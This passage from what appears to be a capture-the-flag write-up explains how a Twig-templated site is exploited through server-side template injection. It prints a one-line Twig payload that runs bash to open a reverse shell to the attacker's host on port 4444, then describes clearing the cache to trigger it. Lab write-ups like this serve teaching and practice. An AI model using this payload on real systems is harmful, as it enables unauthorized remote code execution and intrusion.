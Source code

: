 <figure><img src="../../../.gitbook/assets/image (50) (2).png" alt=""><figcaption></figcaption></figure>

The page seems to use Twig templates to display the webpages:

<figure><img src="../../../.gitbook/assets/image (54) (8).png" alt=""><figcaption></figcaption></figure>

This means that we can probably execute code using SSTI via Twig templates. I added this one liner to the script and saved the changes.

```
{{['bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1"']|filter('system')}}
```

Then, we need to head to Maintenance > Clear Cache, and reload the main page afterwards. Our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (60) (1) (1).png" alt=""><figcaption></figcaption></figure>
